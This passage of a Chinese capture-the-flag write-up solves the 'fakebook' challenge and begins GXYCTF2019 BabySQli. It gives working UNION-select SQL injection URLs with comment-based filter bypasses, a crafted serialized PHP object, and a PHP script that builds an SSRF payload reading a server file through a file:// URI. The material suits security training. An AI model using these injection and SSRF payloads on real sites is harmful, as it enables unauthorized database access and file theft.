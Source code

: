 在之前的 sql查询中会发现`反序列化函数`

![](https://img-blog.csdnimg.cn/20210422174235379.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
当查询fakebook库users表后出现字段：`no,username,passwd,data`

当查询 data 时 发现反序列化的字段
可见 data 与blog有关系，`即data字段经过反序列化在blog显示`

将`得到的 data`传入联合查询`第四列`的返回结果
```
?no=1/**/union/**/select/**/1,2,3,%27O:8:%22UserInfo%22:3:{s:4:%22name%22;s:5:%22admin%22;s:3:%22age%22;i:123;s:4:%22blog%22;s:13:%22www.baidu.com%22;}%27%23
```
发现可以成功解析:

![](https://img-blog.csdnimg.cn/20210422174420884.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

结合user.php

这边get传入的就是用户信息中的blog地址，如果不是404就会将内容读出来。

存在ssrf文件读取

payload:
```php
<?php
class UserInfo
{
    public $name = "1";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";
}
$a = new UserInfo();
echo serialize($a);
?>
```

传入第四列查询：

![](https://img-blog.csdnimg.cn/2021042217452573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
成功解析，查看源码即可

---
# **[GXYCTF2019]BabySQli
- 考点：联合查询-虚拟数据

查看网页源码，发现 search.php，再查看源码发现一串base编码

Base32-64解出来：

>select * from user where username = '$name'

过滤or，(), =  `Or` 绕过

name=admin'Order by 3#&pw=1
查的字段数为`3`
